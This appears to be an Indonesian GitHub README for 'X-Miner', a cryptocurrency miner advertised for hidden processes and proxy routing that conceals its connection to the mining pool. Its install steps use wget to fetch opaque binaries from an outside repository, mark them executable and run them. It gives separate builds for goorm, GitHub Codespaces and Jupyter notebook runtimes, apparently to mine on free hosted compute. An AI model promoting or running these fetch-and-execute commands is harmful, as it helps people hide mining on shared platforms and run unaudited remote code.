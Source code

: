 # 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgm

# Beri izin eksekusi
chmod +x xgm

# Jalankan aplikasi
./xgm

3.codespace

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgt

# Beri izin eksekusi
chmod +x xgt

# Jalankan aplikasi
./xgt

3. runtime notebook/jupyter

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xc

# Beri izin eksekusi
chmod +x xc

# Jalankan aplikasi
./xc

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai
3. Miner runing bisa dilihat dengan munculnya prosess yang di tandai merah di htop
![Screenshot Running](https://raw.githubusercontent.com/xploit-miner/ER1/main/img/shtoprun.JPG)

